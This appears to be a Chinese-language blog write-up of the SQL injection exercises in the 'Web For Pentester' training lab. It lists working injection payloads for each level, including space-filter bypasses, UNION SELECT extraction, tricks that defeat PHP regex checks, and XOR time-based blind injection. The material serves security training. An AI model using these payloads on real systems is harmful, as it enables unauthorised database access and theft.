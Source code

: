 ```yaml
---
l

ayout:     post
title:      "Web For Pentester - SQLi Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/202cb962ac59075b964b07152d234b70.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises




---
```




### SQLi Example 1

最基础的字符型注入，无任何过滤

**name=root' and '1'='1**

### SQLi Example 2

过滤了空格，语句中若出现空格就会报错

> - 水平制表(HT) url编码：%09
> - 注释绕过空格   /\*注释\*/

**name=root'%09and%09'1'='1**

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 3

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 4

最基础的数值型注入，过滤了单引号

**id=2%20and%201=2**

### SQLi Example 5

```php
//代码片段
if (!preg_match('/^[0-9]+/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字开头

**id=1/0 UNION SELECT 1,user(),3,4,5**

### SQLi Example 6

```php
//代码片段
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字结尾

**id=1 and 1=1%23123**

### SQLi Example 7

```php
//代码片段
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
  die("ERROR INTEGER REQUIRED");    
}
```

这里使用了[PCRE_MULTLINE](http://www.php.net/manual/zh/reference.pcre.pattern.modifiers.php)(/m)，也就是说任意换行符之前或之后都必须是数字，那么就可以构造如下payload

**id=1%0a and 1=1**

### SQLi Example 8

使用XOR逻辑加时间盲注进行猜解

**order=name`  xor if(ascii(substring(user(),1,1))=111,sleep(5),0)%23**

### SQLi Example 9

这里过滤了“`”，可以使用XOR让第一个语句报错，第二个语句正确，页面显示正常

**order=1 xor if(ascii(substring(user(),1,1))=112,sleep(5),0)%23**















